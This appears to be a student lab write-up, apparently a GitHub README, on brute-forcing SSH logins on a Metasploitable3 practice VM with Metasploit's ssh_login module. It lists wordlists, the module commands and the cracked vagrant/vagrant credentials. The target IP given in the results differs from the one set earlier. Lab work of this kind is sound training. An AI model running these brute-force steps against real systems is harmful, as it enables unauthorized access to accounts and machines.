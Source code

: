 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.
The objective of this task is to use Metasploit's ssh_login (`auxiliary/scanner/ssh/ssh_login`) module to perform a brute-force attack on the SSH service of a vulnerable machine (the Metasploitable3 target machine). The goal is to discover valid username and password combinations that allow unauthorized access to the system.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

![user.txt & pass.txt files creation](screanshots/filesUserAndPass.png)

use ``` nano [name of the text file].txt ``` to edit the content of the file, add random usernames and passwords.

### users.txt content

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt contant
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.100.10
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```
![set](screanshots/Settters.png)

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)

### The Metasploit ssh_login module successfully brute-forced SSH credentials on the Metasploitable3 target.

* Target IP: 192.168.64.7

* SSH Service was accessible on port 22

- Valid credentials found:
  - **Username:** `vagrant`
  - **Password:** `vagrant`












